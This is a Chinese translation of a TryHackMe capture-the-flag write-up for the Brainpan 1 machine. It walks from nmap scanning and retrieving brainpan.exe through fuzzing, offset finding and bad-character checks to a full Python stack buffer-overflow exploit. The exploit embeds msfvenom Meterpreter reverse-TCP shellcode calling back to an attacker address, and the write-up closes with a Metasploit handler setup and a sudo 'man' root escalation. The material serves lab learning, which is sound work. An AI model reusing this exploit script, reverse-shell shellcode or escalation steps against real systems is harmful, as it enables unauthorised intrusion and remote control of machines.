









# Brainpan 1 书面报告 Tryhackme

> 原文：<https://infosecwriteups.com/brainpan-1-writeup-tryhackme-ba33c01c4fc4?source=collection_archive---------0----------------------->

对 Windows 可执行文件进行逆向工程，找到缓冲区溢出，并在 Linux 机器上利用它。


# 情报收集

**Nmap :**

```
╭─root@kali ~                                                                                                                                                                                                                     
╰─➤  nmap -sV -sC 10.10.146.62 -T5 -oN brainpan                                                                                                            
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-06-10 02:57 EDT                                                     
Nmap scan report for 10.10.146.62                                                                                                                                        
Host is up (0.16s latency).                                                                                         
Not shown: 998 closed tcp ports (reset)                                                                             
PORT      STATE SERVICE VERSION                                                                                     
9999/tcp  open  abyss?                                                                                              
| fingerprint-strings:                                                                                                                                                                    
|   NULL:                                                                                                           
|     _| _|                                                                                                         
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|                                                             
|     _|_| _| _| _| _| _| _| _| _| _| _| _|                                                                                                                                               
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|                                                                 
|     [________________________ WELCOME TO BRAINPAN _________________________]                                      
|_    ENTER THE PASSWORD                                                                                                                                                                                      
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)                                                         
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3                                                                                
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port9999-TCP:V=7.92%I=7%D=6/10%Time=62A2EB65%P=x86_64-pc-linux-gnu%r(NU                                          
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20                                          
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20                                   
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2                                   
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x                                          
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|                                   
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\                                   
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x                                                  
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x                                                           
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x                                                           
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|                                                           
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x                
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x          
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x                                                                     
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_                                                                     
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x                                                                                 
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20                                                                                 
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2                       
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x                                                                                               
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x                                
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2                                
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x                             

SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\                                                                                                                
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x                                
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20                                          
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x                                
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x                                                                                                                
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\                                                       
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20                                          
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");                                                                        

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .                                   
Nmap done: 1 IP address (1 host up) scanned in 57.49 seconds
```

## 开放端口:

*   10000 (python 简单 httpserver)
*   9999(abyss web server for windows { nmap 不确定})

## 端口 10000 (python HTTP 服务器)

访问 port 10000 时，我们没有发现什么有趣的东西，只是在页面上有一个图像，显示了关于安全编码实践的要点。我们可以查看相同的源代码:


正如你所看到的，我们得到了一个外部网站的链接，在访问时，它给出了软件编码的最佳实践。

## 端口 9999(abyss web 服务器)

在访问 web 服务器时，我们得到了这样的界面:


我相信我们可以从命令行实用程序`nc`访问 abyss 服务器，让我们尝试访问它:


由于这台机器的主题是缓冲区溢出，我们可能会尝试在此端口上执行缓冲区溢出附加。但是为了测试，我们需要运行这个服务器的二进制文件。现在，让我们继续列举:

## 目录暴力破解

**端口 9999**

当我们试图在端口 9999 上进行目录暴力攻击时，我们得到一些非常复杂的消息。所以我继续使用端口 10000



**端口 10000**

我们有一个目录



让我们试着去看看:



现在我们可能已经得到了`brainpan.exe`二进制文件，我们可以尝试对其进行逆向工程，并尝试找到缓冲区溢出。

# 缓冲区溢出的反向 brainpan.exe

**先决条件:**

*   窗口虚拟机
*   安装在 windows VM 上的免疫调试器
*   mona python 脚本配置了免疫调试器

用免疫调试器打开`brainpan.exe`，第一次在免疫调试器中启动二进制时，windows 防火墙会询问连接允许还是拒绝。就允许吧。



现在，二进制文件将启动，并监听传入的连接:



现在尝试从我们的 kali 机器本地访问它:



在窗口机器上，我们可以看到我们得到了连接



# 起毛

首先配置 mona 当前的工作目录，这样我们就可以像这样轻松地对其进行操作:
`!mona config -set workingfolder c:\mona\%p`

现在，让我们尝试让应用程序崩溃，我们将发送一串“A…”使机器崩溃。

```
python3 -c 'print("A"*100)' | nc 192.168.1.18 9999
```

在发送 100 个应用程序没有崩溃之后，抗干扰调试器仍然显示它处于运行状态。

现在让我们试着发送 500 A，同样没有成功
让我们试着发送 1000 A，这次成功了，我们成功的让应用崩溃了。


# 寻找偏移

为了找到偏移量，我们将首先创建循环模式。我们可以用 pwn-tools 或 Metasploit 创建该模式。我将使用 Metasploit:

`/usr/bin/msf-pattern_create -l 1000`

然后威尔会把这个发给服务器:

```
╭─root@kali ~  
╰─➤  echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B" | nc 192.168.1.18 9999
```

现在应用程序将崩溃，**注意 EIP 寄存器的值:35724134**
我们可以用 Metasploit 模式偏移实用程序找到偏移，如下所示:

`/usr/bin/msf-pattern_offset -l 1000 -q 35724134`

它会给我们一个 524 的偏移值

# 发现不良性格

首先，用 mona 创建所有十六进制字符，如下所示:

`!mona bytearray -b "\x00"`

> *我们已经创建了除\x00 以外的所有字符，因为它是通用的坏字符*

可以在`C:\mona\brainpan\bytearray.txt`找到

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

或者我们也可以用 python 创建所有角色，就像这样:

```
all_char=""
for x in range(1, 256):
    all_char+="\\x" + "{:02x}".format(x)
print(all_char)
```

或者我们也可以使用 bad chars pip 模块`pip install badchars`
并生成 all_chracter 十六进制代码，如下:`badchars -f python`

# 创建缓冲区溢出脚本:

```
#!/bin/python
import sys
import socket
import structoffset=524all_char=b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'buffer= b"A"*offset+b"BBBB"+all_chartry:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("192.168.1.18",9999))
  s.send((buffer+b"\r\n"))
  s.close()
except:
  print("error")
  sys.exit()
```

在执行完上面的脚本后，程序崩溃了，现在我们可以通过比较 mona 之前生成的所有字符来找到错误的字符，如下所示:

`!mona compare -f C:\mona\brainpan\bytearray.bin -a <ESP_ADDRESS>`

如您所见，我们得到了结果:


上面写着未修改，意思是没有坏角色，只有一个`\x00`，是通用的坏角色。

# 查找跳转语句|返回地址

我们可以这样找到蒙娜:

`!mona jmp -r esp -cpb "ALL_BAD_CHAR"`

所以在执行了上面的命令后，我们只得到一个返回/跳转语句:


现在我们将这个地址作为我们的新 EIP，这样它将跳转到我们将要存储外壳代码的地址。

现在，为了使用这个地址，您需要将它从 little-endian(基于操作系统)转换过来。我们可以用 python `struct`函数来实现:

```
def p32(data):
  return struct.pack('<I',data)p32(0x<RETURN_ADDRESS>)
```

# 添加 nop 和外壳代码注入

**添加 nop**

现在，当我们将要跳转到新的 EIP 时，我们的外壳代码将驻留在那里，这将需要一些空间来打开外壳，所以为了安全起见，将添加 NOPs，这基本上意味着没有操作，只是什么也不做(\x90)。我们可以添加一些 8 的倍数的 NOPs(作为 8 位的存储器地址)

`b'\x90'*16`

**生成外壳代码**

我们可以使用 Metasploit 通过以下命令生成外壳代码:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.16 LPORT=4444 -b "\x00" -f py -v shellcode`

我准备用 meterpreter 反壳！！

现在只需将这两样东西(NOPs 和 shellcode)添加到我们的缓冲区中

# 最终缓冲区溢出脚本:

```
#!/bin/python
import sys
import socket
import structdef p32(data):
  return struct.pack('<I',data)# bad_char=b"\x00"offset=524
jmp_esp=p32(0x311712f3)
nop_sled=b"\x90"*16
buffer= b"A"*offset+b"BBBB"shellcode =  b""
shellcode += b"\xd9\xc0\xd9\x74\x24\xf4\xbf\x82\x72\xea\x0e"
shellcode += b"\x5e\x33\xc9\xb1\x59\x31\x7e\x19\x83\xee\xfc"
shellcode += b"\x03\x7e\x15\x60\x87\x16\xe6\xeb\x68\xe7\xf7"
shellcode += b"\x93\xe1\x02\xc6\x81\x96\x47\x7b\x15\xdc\x0a"
shellcode += b"\x70\xde\xb0\xbe\x87\x57\x7e\x99\xa6\x68\xf4"
shellcode += b"\x97\xe0\xa7\xcb\xf4\xcd\xa6\xb7\x06\x02\x08"
shellcode += b"\x89\xc8\x57\x49\xce\x9e\x12\xa6\x82\xab\x8f"
shellcode += b"\x28\x74\x27\x6d\x74\x7b\xe7\xf9\xc4\x03\x82"
shellcode += b"\x3e\xb0\xbf\x8d\x6e\xb3\x18\xae\x8f\x10\xc8"
shellcode += b"\x25\xc7\x8e\x6c\xf0\xac\x92\x5f\xfc\x04\x61"
shellcode += b"\xab\x89\x96\xa3\xe5\x4d\x34\x8a\xc9\x43\x44"
shellcode += b"\xcb\xee\xbb\x33\x27\x0d\x41\x44\xfc\x6f\x9d"
shellcode += b"\xc1\xe2\xc8\x56\x71\xc6\xe9\xbb\xe4\x8d\xe6"
shellcode += b"\x70\x62\xc9\xea\x87\xa7\x62\x16\x03\x46\xa4"
shellcode += b"\x9e\x57\x6d\x60\xfa\x0c\x0c\x31\xa6\xe3\x31"
shellcode += b"\x21\x0e\x5b\x94\x2a\xbd\x8a\xa8\xd3\x3d\xb3"
shellcode += b"\xf4\x43\xf1\x7e\x07\x93\x9d\x09\x74\xa1\x02"
shellcode += b"\xa2\x12\x89\xcb\x6c\xe4\x98\xdc\x8e\x3a\x22"
shellcode += b"\x8c\x70\xbb\x52\x84\xb6\xef\x02\xbe\x1f\x90"
shellcode += b"\xc9\x3e\x9f\x45\x67\x35\x37\xa6\xdf\x48\xd7"
shellcode += b"\x4e\x1d\x4b\xc6\xd2\xa8\xad\xb8\xba\xfa\x61"
shellcode += b"\x79\x6b\xba\xd1\x11\x61\x35\x0d\x01\x8a\x9c"
shellcode += b"\x26\xa8\x65\x48\x1e\x45\x1f\xd1\xd4\xf4\xe0"
shellcode += b"\xcc\x90\x37\x6a\xe4\x65\xf9\x9b\x8d\x75\xee"
shellcode += b"\xfb\x6d\x86\xef\x69\x6d\xec\xeb\x3b\x3a\x98"
shellcode += b"\xf1\x1a\x0c\x07\x09\x49\x0f\x40\xf5\x0c\x39"
shellcode += b"\x3a\xc0\x9a\x05\x54\x2d\x4b\x85\xa4\x7b\x01"
shellcode += b"\x85\xcc\xdb\x71\xd6\xe9\x23\xac\x4b\xa2\xb1"
shellcode += b"\x4f\x3d\x16\x11\x38\xc3\x41\x55\xe7\x3c\xa4"
shellcode += b"\xe5\xe0\xc2\x3a\xc2\x48\xaa\xc4\x52\x69\x2a"
shellcode += b"\xaf\x52\x39\x42\x24\x7c\xb6\xa2\xc5\x57\x9f"
shellcode += b"\xaa\x4c\x36\x6d\x4b\x50\x13\x33\xd5\x51\x90"
shellcode += b"\xe8\xe6\x28\xd9\x0f\x07\xcd\xf3\x6b\x08\xcd"
shellcode += b"\xfb\x8d\x35\x1b\xc2\xfb\x78\x9f\x71\xf3\xcf"
shellcode += b"\x82\xd0\x9e\x2f\x90\x23\x8b"buffer = b"A"*offset+jmp_esp+nop_sled+shellcodetry:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("192.168.1.18",9999))
  s.send((buffer+b"\r\n"))
  s.close()
except:
  print("error")
  sys.exit()
```

# 剥削

用 Metasploit
`exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost eth0`
`set lport 4444`
打开反向 shell 处理程序，执行上述脚本后监听反向连接！！


最后，我们得到了反向外壳。

# 根据目标修改脚本

因为我们是在我们自己的本地 windows 虚拟机上测试的，所以我们需要对脚本做一些小的修改，它可以在 Tryhakcme 虚拟机上运行。我们需要做两件事

*   修改套接字中的 IP 地址
*   将有效负载修改为 Linux(因为基本操作系统是 Linux)
*   所以有效载荷是`linux/x86/shell_reverse_tcp`
*   用机器的新 IP 修改外壳代码

然后重新运行脚本:



我们得到了系统的外壳。

# 权限提升

首先，稳定外壳`python3 -c 'import pty;pty.spawn("/bin/bash")'`

当我们执行`sudo -l`时，我们发现有一个二进制文件可以作为 SUDO 特权运行。在执行二进制代码时，它给了我们一个选项，其中一个选项看起来很有趣`manual`又名`man`。

如果我们看一下 GTFObins，我们可以看到`man`的 SUDOexploit。



而现在我们得到了**根壳**！！

